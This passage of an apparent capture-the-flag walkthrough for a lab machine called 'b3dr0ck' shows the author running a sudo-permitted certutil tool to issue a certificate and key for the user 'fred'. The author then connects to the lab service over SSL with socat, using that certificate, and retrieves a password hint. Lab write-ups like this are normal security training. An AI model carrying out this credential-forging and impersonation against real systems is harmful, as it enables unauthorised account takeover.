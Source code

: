   ```
  
  EPIC FAIL: wut am i supposed to do with: fred Fred Flintston?
  
  Cert Tool Usage:
  ----------------
  
  Show current certs:
    certutil ls
  
  Generate new keypair:
    certutil [username] [fullname]
  ```

- AHHAHAHAHAHAHAHHAHAHAHAHAHAHA THANK YOU F11snipe I LOVE YOU SO MUCH 👑

- Since that didn't work, I tried reading these certs from different directory and got Fred's cert and key.

  ```
  barney@b3dr0ck:/usr/share/abc$ ls -al
  total 32
  drwxrwxr-x   8 root root 4096 Apr 29  2022 .
  drwxr-xr-x 119 root root 4096 Apr 10  2022 ..
  drwxrwxr-x   2 root root 4096 Apr 29  2022 art
  drwxrwxr-x   2 root root 4096 Apr 29  2022 bin
  drwxrwxr-x   2 root root 4096 Apr 30  2022 certs
  drwxrwxr-x   2 root root 4096 Apr 30  2022 dist
  drwxrwxr-x  18 root root 4096 Apr 10  2022 node_modules
  drwxrwxr-x   2 root root 4096 Apr 10  2022 public
  
  barney@b3dr0ck:/usr/share/abc/certs$ sudo certutil -a fred.csr.pem 
  Generating credentials for user: a (fredcsrpem)
  Generated: clientKey for a: /usr/share/abc/certs/a.clientKey.pem
  Generated: certificate for a: /usr/share/abc/certs/a.certificate.pem
  -----BEGIN RSA PRIVATE KEY-----
  [SNIP!]
  -----END RSA PRIVATE KEY-----
  -----BEGIN CERTIFICATE-----
  [SNIP!]
  -----END CERTIFICATE-----
  ```

- Now save them and use them to connect with SSL and get Fred's password. Exactly the same process like we did for Barney.

  ```
  socat stdio ssl:10.10.123.173:54321,cert=fred_cert,key=fred_id,verify=0
  2025/05/30 21:33:09 socat[161859] W refusing to set empty SNI host name
  
  
   __     __   _     _             _____        _     _             _____        _ 
   \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
    \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
     \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
      | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
      |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                   
                                                                                   
  
  Welcome: 'fredcsrpem' is authorized.
  b3dr0ck> ls
  Unrecognized command: 'ls'
  
  This service is for login and password hints
  b3dr0ck> password
  Password hint: YabbaDabbaD0000! (user = 'fredcsrpem')
  ```